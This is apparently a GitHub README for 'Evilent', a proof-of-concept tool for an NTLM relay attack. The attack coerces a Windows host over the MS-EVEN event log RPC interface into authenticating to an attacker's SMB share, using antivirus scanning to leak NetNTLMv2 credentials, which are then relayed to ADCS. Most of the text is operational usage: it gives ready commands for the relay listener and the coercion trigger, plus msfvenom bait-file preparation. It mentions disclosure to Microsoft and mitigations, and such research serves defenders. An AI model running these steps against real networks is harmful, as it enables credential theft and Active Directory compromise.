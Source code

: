 Evilent 🧨

A practical NTLM relay attack using the MS-EVEN RPC protocol and antivirus-assisted coercion.
⚙️ Overview

Evilent is a PoC tool that triggers the ElfrOpenBELW procedure in the MS-EVEN RPC interface (used for Windows Event Log service), causing the target machine to connect to an attacker-controlled SMB share. If antivirus software (e.g., Defender) is present, it may scan the file and unintentionally leak NetNTLMv2 credentials, which can be relayed via ntlmrelayx.

This project includes:

    evilent.py — triggers the MS-EVEN coercion

    fefender.py — helper script to run impacket-smbserver and ntlmrelayx in parallel for harvesting and relaying credentials

🧪 Research Context

This attack is a combination of previously known techniques:

    MS-EVEN coercion (originally PoC’d in C by @evilashz)

    NTLM leak through antivirus file scanning behavior

    Credential relaying via impacket’s ntlmrelayx

Presented at CyberWave2025 by @TCross, with responsible disclosure to Microsoft.
📦 Requirements

    Python 3.x
    impacket library
    metasploit (msfvenom)
    Target with antivirus enabled (e.g., Windows Defender)

🚀 Usage
Step 1: Start listener (SMB + relay)

In one terminal:

python3 fefender.py \
  --smbserver-args='Share ./ -smb2support' \
  --ntlmrelayx-args='-smb2support -t http://192.168.140.218/certsrv/certfnsh.asp --adcs --keep-relaying'

![image](https://github.com/user-attachments/assets/4eef02eb-c16c-46f0-91a0-37f486058b2b)

This will launch both:

    impacket-smbserver to serve the bait file

    ntlmrelayx to relay NTLM authentication to a target (e.g., ADCS)

Step 2: Trigger the attack

In another terminal:

python3 evilent.py -backupfile <Sharename>\\<filename> \
  <domain>/<username>:<password>@<target> \
  <listener>

    target: The victim machine (can be given as [domain/]username[:password]@<ip>)

    Listener IP: IP of the attacker's SMB server

    -backupfile: Optional filename to request (msfvenom generate this file)
    
![image](https://github.com/user-attachments/assets/0f8f6994-4b2c-431d-ac53-8f2ababbeb30)

🧠 Notes

    The attack works only in Active Directory environments.

    Authentication often comes from NT AUTHORITY\LOCAL SERVICE, but antivirus activity may cause the host machine account to leak NetNTLMv2.

    Exploitable file name variations (e.g., test.exeem䵌䵅P) must be prepared ahead on the SMB share.

    Environment variables like %USERNAME% may be expanded when referenced in UNC paths (e.g., \\attacker\%USERNAME%) — potential info leak.

🔐 Disclosure

Microsoft was notified and acknowledged the behavior. They provided security recommendations (e.g., disabling NTLM, monitoring RPC calls to eventlog pipe).
🙏 Credits

    @TCross — evilent.py and combined attack research

    @eversinc33 — impacket-based MS-EVEN PoC

    @evilashz — original C PoC for ElfrOpenBELW coercion

    Impacket — core toolkit for SMB, NTLM, and AD attacks
